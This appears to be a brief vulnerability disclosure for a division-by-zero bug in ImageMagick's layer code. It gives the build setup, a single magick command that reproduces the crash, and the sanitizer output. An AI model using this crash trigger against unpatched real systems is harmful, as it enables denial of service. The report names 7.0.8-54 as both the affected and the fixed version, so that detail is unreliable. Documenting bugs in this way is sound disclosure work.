 # Division by Zero Vulnerability in ImageMagick

## POC URL
https://github.com/ImageMagick/ImageMagick/issues/1629

## Compilation Environment
- OS: Ubuntu 18.04.1 LTS
- ImageMagick version: 7.0.8-54 Q16 x86_64
- Compiler: clang-7/clang++-7
- Compiler flags: `-fsanitize=address,undefined -g`

## Run Command
```bash
magick "-seed" "0" "-delay" "34<" "(" "magick:rose" "+repage" ")" "(" "magick:rose" "+repage" ")" "-encoding" "Symbol" "-layers" "remove-dups" "-quiet" "tmp"
```

## Expected Output
The command should trigger a division by zero error at `MagickCore/layer.c:1616:30` when processing the image layers. The error occurs because `curr->ticks_per_second` is zero, leading to undefined behavior.

```
MagickCore/layer.c:1616:30: runtime error: division by zero
SUMMARY: UndefinedBehaviorSanitizer: undefined-behavior
```

This vulnerability was fixed in ImageMagick version 7.0.8-54.